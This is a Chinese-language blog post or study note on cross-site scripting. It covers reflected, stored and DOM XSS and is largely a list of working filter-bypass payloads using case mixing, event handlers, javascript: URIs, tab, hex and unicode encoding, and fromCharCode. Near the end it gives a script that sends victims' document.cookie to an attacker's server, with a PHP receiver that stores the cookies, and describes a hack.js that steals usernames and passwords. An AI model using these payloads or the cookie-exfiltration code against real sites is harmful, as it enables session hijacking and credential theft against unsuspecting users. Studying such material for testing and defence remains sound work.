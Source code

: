 ```yaml
---
published: true
---
```

## XSS
   指恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入Web里面的html代码会被执行，从而达到恶意用户的特殊目的。  
### Reflect xss： 
   它通过给别人发送带有恶意脚本代码参数的URL，当URL地址被打开时，特有的恶意代码参数被HTML解析、执行。它的特点是非持久化，必须用户点击带有特定参数的链接才能引起。下面博客很好的讲述了反射型XSS的利用:  
http://netsecurity.51cto.com/art/201311/417201.htm  

对于xss防御的绕过方式：   
1.双写绕过  
输入
'''
	<sc< script>ript>alert(/xss/)< /script>
'''
2.大小写混淆绕过  
< ScRipt>alert(/xss/)< /script>   
3.< img src=1 onerror=alert(/xss/)>  
4.当<>被转译为&lt时  
 " onmouseover=alert(document.domain) x=“  （x=" 用于闭合  “>）  
 或者 " onmouseover=alert(document.domain)>  
5.javascript :alert();#js伪协议在a标签的使用,可以在输入时构造a标签  
   < a  href=javascript :alert(1)>test< /a>  
6.当script被替换xscript时，尝试用tab制表(%09)绕过  
  < a href=javas%09cript:alert(1)>test< /a>  
但是制表符使用在单个标签之内，会被浏览器`正确`去除，然而在跨标签的时候（即闭合前面原有标签，使用在构造者构造的新标签的时候)不会被消除，使用&#09 tab制表符html十进制编码：javascri&#09pt:alert()   

7.特殊字符进行轮换，比如'(单引号)转换为\'，"(双引号)转换为\" ，\转换为\\。   
javascript中的String.fromCharCode方法来绕过，我们可以把alert("XSS");转换为   
String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41)那么我们的XSS语句就变成了 
< script>String.fromCharCode(97, 108, 101, 114, 116, 40, 34, 88, 83, 83, 34, 41, 59)< /script>    
(String.fromCharCode()是javascript中的字符串方法，用来把ASCII转换为字符串。)   
8.进行hex编码来绕过XSS。  
< script>alert("xss");< /script> 可以转换为：   
%3c%73%63%72%69%70%74%3e%61%6c%65%72%74%28%22%78%73%73%22%29%3b%3c%2f%73%63%72%69%70%74%3e

### Stored  xss  
把恶意脚本存储到被攻击者的网站的数据库。其他人访问数据库中的恶意脚本代码后，浏览器执行恶意脚本。 
思路  
1.通过nodeJS在后端开启两个不同端口的服务，即两个不同域的站点。  
2.被攻击者网站  
 a:在登录时，把用户的用户名、密码信息存入cookie中  
 b.有一个评论功能，用户在文本框内输入评论信息，然后提交到服务器。  
3.攻击者在评论处输入< script src='hack.js'>< /script>,点击提交后这段脚本存入到数据库  
 hack.js文件是攻击者网站的js脚本文件，用来获取用户的cookie中的用户名、密码信息，并且把用户名、密码发送到攻击者指定的网站。  
4.当网站的用户访问带有评论< script src='hack.js'>< /script>信息时，会下载hack.js文件，并且执行，网站被攻击。  

### DOM XSS 
由于文档的某些输入输出没有过滤，攻击者可以插入js代码，在客户端进行攻击造成xss攻击。 常见于：document.location,document.URL,document.URLUnencoded,document.referrer,windows.location等 
若插入的js被另一个文档对象所操作那么可以叫它为dom xss。   

1、构造document.write()的playload，如果<>被过滤时，可以使用16进制编码<变为\x3c，>为\x3e    
		\x3cscript\x3ealert(document.domain);\x3c/script\x3e 
  但是document.write在输出的时候会JavascriptDecode一下数据，会把数据原有\去除，所以要变为  
  \\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e   
2、\x不起作用可以考虑unicode编码   
     \\u003cimg src=x onerror=alert(document.domain)\\u003e   

### 当你注入了js，如何取得cookie呢？
1.编写js脚本利用存储型xss漏洞（留言板）来传输cookie到自己的服务器端  
      < script>  
      Var cook =document.cookie;   
      Var  img =‘< img src=“自己的服务器ip/get.php？cookie=‘+encodeURL(cook)+’ “ />’;  
      Document.write(img)  
      < /script>   
2.本地编写get.php 获取传输的COOKEIE存入xss.txt.    
<?php     
 $cook=isset($_GET(‘cookie’))?$_GET(‘cookie’):NULL;     
file_put_contents(“xss.txt”,$cook);   
?>  
得到cookie后就能进行欺骗，想获得更多信息 查看js的document对象和windows对象，ajax请求.     


XSS小技巧   
1、eval(“alert(1)”);会当作js运行   
2、若是页面没有申明charset=UTF-8，那么可以使用UTF-7构造playload http://toolswebtop.com/text/process/decode/utf-7   
3、使用 ‘ //进行闭合,    ”>来闭合value值   
4、有下拉选择框时，可能注入点不止一个，burp查看修改。可能也需要闭合
